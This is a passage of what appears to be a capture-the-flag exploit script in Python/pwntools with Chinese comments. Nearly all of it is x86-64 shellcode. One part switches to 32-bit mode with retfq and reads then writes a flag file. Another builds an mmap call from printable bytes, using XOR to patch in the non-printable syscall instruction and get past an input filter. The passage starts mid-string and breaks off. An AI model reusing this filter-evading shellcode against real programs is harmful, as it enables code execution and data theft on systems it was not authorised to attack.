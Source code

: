 ```plain
push 0x40404089
retfq

/*read(fp,buf,0x70)*/
mov rdi,rcx
mov rsi,rsp
mov rdx,0x70
xor rax,rax
syscall

/*write(1,buf,0x70)*/
mov rdi,1
mov rax,1
syscall
'''
shellcode_x86 = asm(shellcode_x86)
shellcode_flag = asm(shellcode_flag, arch = 'amd64', os = 'linux')
shellcode = ''

# 0x40404040 为32位shellcode地址
shellcode_mmap = '''
/*mmap(0x40404040,0x7e,7,34,0,0)*/
push 0x40404040 /*set rdi*/
pop rdi

push 0x7e /*set rsi*/
pop rsi

push 0x40 /*set rdx*/
pop rax
xor al,0x47
push rax
pop rdx

push 0x40 /*set r8*/
pop rax
xor al,0x40
push rax
pop r8

push rax /*set r9*/
pop r9

/*syscall*/
/* syscall 的机器码是 0f 05, 都是不可打印字符. */
/* 用异或运算来解决这个问题: 0x0f = 0x5d^0x52, 0x05 = 0x5f^0x5a. */
/* 其中 0x52,0x5a 由 append 提供. */
push rbx
pop rax
push 0x5d
pop rcx
xor byte ptr[rax+0x31],cl
push 0x5f
pop rcx
xor byte ptr[rax+0x32],cl

push 0x22 /*set rcx*/
pop rcx

push 0x40/*set rax*/
pop rax
xor al,0x49
'''
```